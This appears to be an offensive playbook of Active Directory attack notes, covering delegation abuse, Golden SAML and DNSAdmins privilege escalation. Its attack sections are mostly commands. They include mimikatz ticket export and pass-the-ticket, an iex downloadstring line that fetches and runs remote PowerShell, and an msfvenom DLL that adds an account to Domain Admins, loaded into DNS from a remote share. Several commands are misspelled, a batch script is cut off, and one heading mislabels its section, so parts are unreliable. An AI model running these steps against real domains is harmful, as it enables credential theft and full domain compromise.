

#### GPO Delegation

Group Policy was designed to provide simplified management of resources in a domain, though its capability can also be co-opted by an attacker to push out malware, create/modify scheduled tasks, downgrade credential protections, ....

Within PowerSploit, we have the [Get-DomainGPO](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO/)

```powershell
Get-DomainGPO -Domain domain.local
```

###### *If you don't know, now you know : [GPO]()*

Group Policy Objects are Active Directory containers used to store groupings of policy settings.
These objects are then linked to specific sites, domains, or most commonly specific organizational units (OUs).

The goal of policy-based administration is for an administrator to define the environment for users and computers once by defining policies, and then to rely on the system to enforce those policies.

Group policies are stored as a number of components that collectively enable the Group Policy functionality both at the client side and for the administrator.

All domain Group Policies are stored in the following domain share: \\\<DOMAIN>\SYSVOL\\\<DOMAIN>\Policies\

Each Group Policy Object in Active Directory has the following attributes (on the policy object in AD):

- **displayName**: This is the name given to the GPO by the creator.
- **gPCFileSysPath**: This points to the location in SYSVOL where the associated GPO files (aka “Group Policy Template”) are located.
- **gPCMachineExtensionNames**: This attribute lists the GPO client side extensions (CSEs) required to by the client process the machine specific Group Policy settings.
- **gPCUserExtensionNames**: This attribute lists the GPO client side extensions (CSEs) required to by the client process the user specific Group Policy settings.

https://adsecurity.org/?p=2716


https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

#### Unconstrained Delegation Abuse

To discover computers with Kerberos unconstrained delegation is quite easy, we need to check for the following

```powershell
Get-ADComputer -Filter {(TrustedForDelegation -eq $True) -AND (PrimaryGroupID -eq 515)} -Properties TrustedForDelegation, servicePrincipalName, Description
```

So, if they are computers with the TrustedForDelegation set to **True**, we can do the following:

1. Compromise the server via an admin or service account.
2. Social engineer a Domain Admin to connect to any service on the server with unconstrained delegation.

For this, we will use our dear friend mimikatz

```bash
# Get the tickets
mimikatz # privilege::debug
mimikatz # sekurla::tickets /export
# Normally under "Group 2 - Ticket Granting Ticket", we should the ticket for the Service Name "krbtgt"
```

Now we can use that ticket through a pass-the-ticket and connect to a Domain Controller

```bash
# Perform a pass-the-ticket with the extracted ticket
mimikatz # kerberos::ptt ..domain.local.kirbi
mimikatz # exit

# Connect to a DC
Enter-PSSession -ComputerName DC.DOMAIN.LOCAL

# We can eventually grab the krbtgt's hash
mimikatz # privilege::debug
mimikatz # seckurlsa::krbtgt
```

#### Resource-Based Constrained Delegation Abuse

There is a blog describing how to perform that [link](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

###### *If you don't know, now you know: [Kerberos Delegation]()*

The usage of Kerberos delegation is to enable an application to access resources hosted on a different server.

Types of Kerberos Delegation:

- Unconstrained Delegation (Windows 2000/2003/2008 Servers can do this type of delegation): This is the original implementation of delegation, and also the least secure. When an object authenticates to a host with unconstrained delegation configured, the ticket-granting ticket (TGT) for that account gets stored in memory.
- Constrained Delegation (Windows 2003/2008 Servers in 2003 Domain Functional Level (or higher) can do this type of delegation): Allows you to configure which services an account can be delegated to.
- Resource-Based Constrained Delegation:

Here are is Kerberos works:

1. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the **authentication ticket (TGT) request (AS-REQ)**. The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates **Ticket-Granting Ticket (TGT)**.
2. The **TGT** is encrypted, signed, & **delivered to the user (AS-REP)**. **Only the Kerberos service (KRBTGT) in the domain can open and read TGT data**
3. The User presents the TGT to the DC when requesting a **Ticket Granting Service (TGS) ticket (TGS-REQ)**.
4. The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user (TGS-REP).
5. The user connects to the server hosting the service on the appropriate port & presents the TGS (AP-REQ). The service opens the TGS ticket using its NTLM password hash.

1. Kerberos Unconstrained Delegation.

This is the *"Trust this computer for delegation to any service (Kerberos only)"* box

When Kerberos Unconstrained Delegation is enabled on the server hosting the service specified in the Service Principal Name referenced in the TGS-REQ **(step 3)**, the Domain Controller the DC places a **copy of the user’s TGT into the service ticket**.
When the user’s service ticket (TGS) is provided to the server for service access, the server opens the TGS and places the user’s TGT into LSASS for later use.
The Application Server can now impersonate that user without limitation!

2. Kerberos Constrained Delegation.

Constrained delegation limits what services are accessible by a delegated computer.

The constrained delegation designation relies on two Kerberos extensions:

- S4U2Self: Permits accounts to request service tickets to themselves for a given user. The issued ticket will be marked by the domain controller as “forwardable.”
- S4U2Proxy: Uses the forwardable service ticket to request a ticket to a SPN in the msDS-AllowedToDelegateTo field of the requesting service.

Any accounts, user or computer, that have service principal names in their msDS-AllowedToDelegateTo property can pretend to be any user in the domain, to those specific service principals names.  You need a right called SeEnableDelegationPrivilege on a domain controller to modify the msDS-AllowedToDelegateTo

Additionally, service name (sname) is not protected in the KRB-CRED file, only the server name is.

3. Resource-Based Constrained Delegation

Kerberos constrained delegation can be used to provide constrained delegation when the front-end service and the resource services are not in the same domain.

By supporting constrained delegation across domains, services can be configured to use constrained delegation to authenticate to servers in other domains **rather than using unconstrained delegation.**

Resource-based constrained delegation puts control of delegation in the hands of the **administrator owning the resource being accessed.**

https://stealthbits.com/blog/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/
https://adsecurity.org/?p=1667

- For the "Kerberos Delegation" part, thanks to Sean Metcalf <https://adsecurity.org/?p=1667>


#### RDPInception

Within Remote Desktop, users are able to “Choose the devices and resources that you want to use in your remote session” such as sharing of the Local Disk

RDPInception is a relatively simple batch script

```
# Switches off echo.
@echo off
# Puts a short timer to ensure that tsclient is mounted.
timeout 1 >nul 2>&1
# Makes a temp directory on both the visiting machine and the target.
mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1
#
```

#### Golden SAML

When performing a golden SAML attack, an adversary must first gain administrative privileges on the ADFS server through additional Lateral Movement and Privilege Escalation.

1. Attacker accesses ADFS server and extracts private key and certificate.
2. User attempts to access desired service (e.g. AWS, Office 365).
3. Service redirects attacker to ADFS for authentication.
4. Bypassing ADFS authentication, attacker signs a forged SAML response with stolen key.
5. Attacker presents desired service with signed SAML response and receives access.



(Image credited to Sygnia)

[ADFSDump](https://github.com/fireeye/ADFSDump) is a C# tool to dump all sorts of goodies from AD FS.

Unless discovered and remediated, this attack provides attackers with persistent access to all services federated with ADFS. 

Requirements:

- Have access to an ADFS Server

extract the necessary certificate and private key.

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Follow best practise from Microsoft listed [here](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/deployment/best-practices-securing-ad-fs)
- *Passive Defense*: Use third-party security solutions to protect the token signing certificate from being stolen by attackers.
- *Active Defense*: Monitor ADFS trust modification with Windows Event ID such as 307 & 510 
- *Active Defense*: Monitor event such as "certutil.exe -exportPFX" or PowerShell command "Export-PfxCertificate"
- *Active Defense*: Monitor any logins to the service provider using SAML SSO which does not correlate with a corresponding Windows Event ID 4769, 1200 and 1202. (When authenticating with a Golden SAML forged response the only event logged is the login to the service provider.)


https://cube0x0.github.io/Pocing-Beyond-DA/

##### Domain Admins

Members of the DNS Admins group have access to network DNS information. The default permissions are as follows: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

We can load a DLL and then restart the DNS service. However, we don't have the privilege to restart the DNS service remote or locally

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
New-MachineAccount -MachineAccount cube -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local
msfvenom -p windows/x64/exec cmd='net group "domain admins" cube$ /add /domain' -f dll > dns.dll
dnscmd.exe dc.htb.local /config /serverlevelplugindll \\10.0.0.7\tmp\dns.dll
```
